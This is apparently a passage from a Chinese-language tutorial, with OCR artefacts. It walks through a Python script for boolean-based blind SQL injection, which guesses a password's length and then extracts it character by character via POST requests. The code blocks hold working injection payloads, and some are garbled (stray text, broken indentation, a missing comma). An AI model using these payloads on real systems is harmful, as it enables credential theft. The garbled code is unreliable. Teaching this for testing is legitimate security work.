 ```py
yes = sys.argv[1]

i = 1
asciivalue = 1
answer = []
print “Kicking off the attempt”
```

我们的有效载荷基本上请求我们试图返回的密码长度，并将其与将要迭代的值进行比较：

```py
payload = {'injection': '\'AND char_length(password) = '+str(i)+';#', 'Submit': 'submit'}
```

然后我们永远重复下一个循环，因为我们不知道密码有多长。我们将有效载荷提交到目标 URL 以进行`POST`请求：

```py
while True:
  req = requests.post('<target url>' data=payload)
```

每次检查我们最初设置的`yes`值是否出现在响应文本中，如果是，我们结束`while`循环，将`i`的当前值设置为参数长度。`break`命令是结束`while`循环的部分：

```py
lengthtest = req.text
  if yes in lengthtest:
    length = i
    break
```

如果我们没有检测到`yes`值，我们将`i`加`1`并继续循环：

```py
Ard.
else:
    i = i+1
```

使用目标字符串的已识别长度，我们遍历每个字符，并使用`asciivalue`，每个可能的字符值。对于每个值，我们将其提交到目标 URL。因为 ascii 表只运行到`127`，我们将循环限制到`asciivalue`达到`126`为止。如果达到`127`，则出现了问题：

```py
for x in range(1, length):
  while asciivalue < 126:
payload = {'injection': '\'AND (substr(password, '+str(x)+', 1)) = '+ chr(asciivalue)+';#', 'Submit': 'submit'}
    req = requests.post('<target url>', data=payload)
```

我们检查我们的是字符串是否出现在响应中，如果是，就跳转到下一个字符。我们将成功的消息以字符形式附加到我们的答案字符串中，并使用`chr`命令进行转换：

```py
if yes in req.text:
    answer.append(chr(asciivalue))
break
```

如果`yes`值不存在，我们将`asciivalue`添加到移动到下一个可能的字符位置并通过：
